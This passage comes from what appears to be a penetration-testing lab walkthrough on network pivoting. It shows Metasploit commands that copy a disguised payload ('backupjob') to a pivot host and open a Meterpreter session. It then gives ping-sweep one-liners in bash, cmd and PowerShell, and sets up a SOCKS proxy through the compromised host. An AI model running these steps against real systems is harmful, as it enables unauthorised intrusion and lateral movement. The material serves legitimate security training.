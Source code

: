 ### Step 3: Execute Payload on Pivot

```bash
# Transfer and execute
scp backupjob ubuntu@10.129.202.64:~/
# On pivot: chmod +x backupjob && ./backupjob

# Result:
[*] Meterpreter session 1 opened
meterpreter >
```

---

## Network Enumeration Through Pivot

### Ping Sweep Methods

#### Method 1: Metasploit Module
```bash
background
use post/multi/gather/ping_sweep
set RHOSTS 172.16.5.0/23
set SESSION 1
run
```

#### Method 2: Bash One-liner (Linux Pivot)
```bash
shell
for i in {1..254}; do (ping -c 1 172.16.5.$i | grep "bytes from" &); done
```

#### Method 3: CMD One-liner (Windows Pivot)
```cmd
for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply"
```

#### Method 4: PowerShell One-liner
```powershell
1..254 | % {"172.16.5.$($_): $(Test-Connection -count 1 -comp 172.16.5.$($_) -quiet)"}
```

---

## SOCKS Proxy Pivoting

### Step 1: Setup SOCKS Proxy Server

```bash
# Background session
background

# Start SOCKS proxy
use auxiliary/server/socks_proxy
set SRVPORT 9050
set SRVHOST 0.0.0.0
set VERSION 4a
run -j
```
